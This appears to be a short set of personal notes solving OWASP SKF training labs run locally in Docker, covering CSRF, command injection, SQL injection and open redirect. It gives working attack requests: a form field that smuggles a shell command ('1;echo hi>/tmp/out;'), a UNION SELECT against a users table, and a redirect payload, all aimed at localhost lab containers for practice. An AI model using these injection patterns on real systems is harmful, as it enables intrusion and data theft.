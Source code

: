 ## blabla1337/owasp-skf-lab:java-csrf

```bash
docker run -p5000:5000 blabla1337/owasp-skf-lab:java-csrf
```

spring-boot
-> admin/admin -> src/main/resources/data.sql


```bash
curl 'http://localhost:5000/update' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: JSESSIONID=DA8353D048C3C8B90D33596A10B2B360' \
  --data-raw 'color=yellow2'
```

## blabla1337/owasp-skf-lab:java-cmd

docker run -p5000:5000 blabla1337/owasp-skf-lab:java-cmd

drop malicious payload in remote filesystem
```bash
curl 'http://localhost:5000/home' \
   -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQJEtZoqQ8I4ZmYVs' \
  --data-raw $'------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs\r\nContent-Disposition: form-data; name="size"\r\n\r\n1;echo hi>/tmp/out;\r\n------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs--\r\n' \
```

## owasp-skf-lab:java-sqli

exploit
`http://localhost:5000/home/1%20union%20select%20*%20from%20users`

## blabla1337/owasp-skf-lab:java-url-redirection-harder

ZAProxy gave me:
`http://localhost:5000/redirect?newurl=https%3A%2F%2F7289221068653968432%252eowasp%252eorg`
